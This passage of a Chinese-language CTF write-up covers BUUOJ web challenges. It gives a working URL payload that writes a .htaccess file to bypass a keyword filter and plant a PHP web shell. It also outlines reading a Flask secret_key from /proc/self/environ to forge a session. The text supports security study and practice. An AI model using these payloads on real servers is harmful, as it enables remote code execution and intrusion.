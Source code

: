 ```php
    if(stristr($content,'on') || stristr($content,'html') || stristr($content,'type') || stristr($content,'flag') || stristr($content,'upload') || stristr($content,'file')) {
        echo "Hacker";
        die();
    }
    $filename = $_GET['filename'];
    if(preg_match("/[^a-z\.]/", $filename) == 1) {
        echo "Hacker";
        die();
    }
    $files = scandir('./'); 
    foreach($files as $file) {
        if(is_file($file)){
            if ($file !== "index.php") {
                unlink($file);
            }
        }
    }
    file_put_contents($filename, $content . "\nJust one chance");
?>
```

非 index.php 不解析

利用 .htaccess 绕过

```
http://af195544-85f8-4e1f-8868-ef5faf8632eb.node4.buuoj.cn:81/?filename=.htaccess&content=php_value auto_prepend_fi\%0ale .htaccess%0a%23<?php system($_GET[1]);?>%0a%23%20\
```

![image-20221221144126952](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212211441090.png)

## [PASECA2019]honey_shop

flask, 存在任意文件读取

py 被过滤不可读, 通过 /proc/self/environ 拿到 secret_key 然后伪造 balance

![image-20221221153041404](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212211530480.png)

![image-20221221153052396](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212211530503.png)

![image-20221221153058389](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212211530464.png)

## [WMCTF2020]Make PHP Great Again 2.0

```php
<?php
highlight_file(__FILE__);
require_once 'flag.php';
if(isset($_GET['file'])) {
  require_once $_GET['file'];
}
```
